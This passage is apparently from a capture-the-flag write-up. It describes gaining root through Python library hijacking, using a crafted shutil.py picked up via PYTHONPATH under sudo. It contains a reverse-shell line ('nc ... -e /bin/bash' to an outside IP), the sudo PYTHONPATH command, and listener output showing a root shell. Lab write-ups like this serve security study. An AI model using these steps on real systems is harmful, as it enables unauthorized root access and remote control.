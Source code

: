 It is the function to backup the web data. It is running a python file called backup.py which is in the same directory as the admin_tasks script. Here is how it looks.

{%highlight python%}
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
{%endhighlight%}

I knew that I am not in a rabbit hole because the clue was pretty strong that I have to do something with these 2 files only. Here is where my python coding experience came in handy. I knew that a script looks for imports first in it's current directory. But we don't have the write permissions for the `/opt/scripts/`. Then I decide to checkout the `PYTHONPATH` with `echo $PYTHONPATH` which returned nothing, meaning that the variable is not set and we can manipulate it.

Some recap on PYTHONPATH. It is an environment variable that tells Python about where to look for imported files. So if we are able to manipulate that and tell python to look for our own created mailicious file and import it instead we can try and run it as root. Here is some [reference for that](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8). (ours is the 3rd scenario according to this article)

I do exactly that first make another folder first in side the /tmp directory, and make file named "shutil.py" with contents like this

{%highlight python%}
#!/usr/bin/python3

import os

def make_archive(a,b,c):
	os.system("nc 10.10.14.61 1234 -e /bin/bash")
{%endhighlight%}

Next we just need to set the environment variable and run the 6th option(the option which runs the python script) in the admin_tasks script. Also setup a netcat listener in another tab.

Now we just do something like

{%highlight text%}
sudo PYTHONPATH=/tmp/newshutil ./admin_tasks.sh 6
{%endhighlight%}

we set the PYTHONPATH  as /tmp/newshutil which means now every script will look there first for any imported files. And then we run the admin script with the option 6 to run the backup.py file with root privileges.
And...

{%highlight text%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.187 59722 received!
whoami
root
{%endhighlight%}
